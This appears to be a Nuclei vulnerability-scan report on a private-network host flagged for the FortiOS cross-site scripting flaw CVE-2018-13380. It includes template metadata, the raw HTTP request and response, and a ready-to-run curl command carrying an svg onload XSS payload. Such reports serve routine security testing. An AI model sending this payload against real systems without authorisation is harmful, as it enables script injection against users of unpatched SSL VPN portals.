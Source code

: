 ### Fortinet FortiOS Cross-Site Scripting (CVE-2018-13380) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2018-13380**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/message?title=x&msg=%26%23%3Csvg/onload=alert(1337)%3E%3B

**Timestamp**: Wed Jun 8 20:22:18 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Fortinet FortiOS Cross-Site Scripting |
| Authors | shelld3v, aaronchen0 |
| Tags | cve, cve2018, fortios, xss, fortinet |
| Severity | medium |
| Description | A Cross-site Scripting (XSS) vulnerability in Fortinet FortiOS 6.0.0 to 6.0.4, 5.6.0 to 5.6.7, 5.4.0 to 5.4.12, 5.2 and below versions under SSL VPN web portal allows attacker to execute unauthorized malicious script code via the error or message handling parameters. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2018-13380](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-13380) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /message?title=x&msg=%26%23%3Csvg/onload=alert(1337)%3E%3B HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 189
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/message?title=x&msg=&#<svg/onload=alert(1337)>;</B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2018-13380
- https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html
- https://fortiguard.com/advisory/fg-ir-18-383
- https://fortiguard.com/advisory/fg-ir-20-230

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36' 'http://192.168.198.179:8080/message?title=x&msg=%26%23%3Csvg/onload=alert(1337)%3E%3B'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)